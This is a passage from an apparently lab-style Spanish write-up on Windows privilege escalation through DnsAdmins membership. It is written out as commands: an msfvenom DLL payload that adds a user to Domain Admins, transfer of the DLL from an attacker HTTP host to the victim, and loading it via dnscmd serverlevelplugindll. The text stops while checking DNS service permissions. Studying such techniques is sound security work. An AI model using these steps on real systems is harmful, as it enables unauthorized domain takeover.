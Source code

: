 Abrimos una `powershell` e intentamos abrir el archivo especificado:
<img width="940" height="238" alt="image" src="https://github.com/user-attachments/assets/733ed938-155e-4965-90b9-14715e8579e5" />


Verificamos que pertenecemos al grupo `DnsAdmins` 
```powershell
Get-ADGroupMember -Identity DnsAdmins
```
<img width="1024" height="622" alt="image" src="https://github.com/user-attachments/assets/03a99e67-9cb4-433a-9abc-2cc899ff1fad" />


Al pertenecer al grupo `DnsAdmins` podemos usar las herramientas de administración DNS para configurar la clave `ServerLevelPluguinDll` en el registro. Si la DLL apuntada es maliciosa y el servicio DNS (que corre como SYSTEM) la carga, su código se ejecutará con privilegios SYSTEM, lo que puede permitir la elevación de privilegios.
Creamos la dll maliciosa en nuestro host utilizando `msfvenom`:

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

<img width="1053" height="142" alt="image" src="https://github.com/user-attachments/assets/9135627e-76be-4e9b-a72d-2ff01ecbe5ee" />

Transferimos el dll a la máquina víctima mediante un servidor en phyton
```bash
python3 -m http.server 7777
```
<img width="625" height="94" alt="image" src="https://github.com/user-attachments/assets/42d7a6ba-0297-4b5c-8c60-5c0dc39d0c47" />

Descargamos el fichero desde la maquina victima
```powershell
wget "http://10.10.14.27:7777/adduser.dll" -outfile "adduser.dll"
```

<img width="761" height="396" alt="image" src="https://github.com/user-attachments/assets/48040e95-1b95-4ead-b338-11c5d9b7f219" />

Cargamos la dll con el siguiente comando:

```powershell
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\adduser.dll
```
xxxxxxx

Para que estos cambios tengan efecto, el servicio dns debe reiniciarse. Procedemos a verificar si tenemos los permisos para reiniciar el servicio.

Obtenemos nuestro sid
```powershell
wmic useraccount where name="netadm" get sid
```
Este comando no funciona por lo que lo modificamos:
```powershell
wmic useraccount where "name='netadm'" get sid
```
<img width="693" height="144" alt="image" src="https://github.com/user-attachments/assets/7ac8dd55-ecc8-4e6b-af53-4437256a1a34" />
Ahora que tenemos nuestro SID, procedemos a mostrar el descriptor de seguridad de DNS:

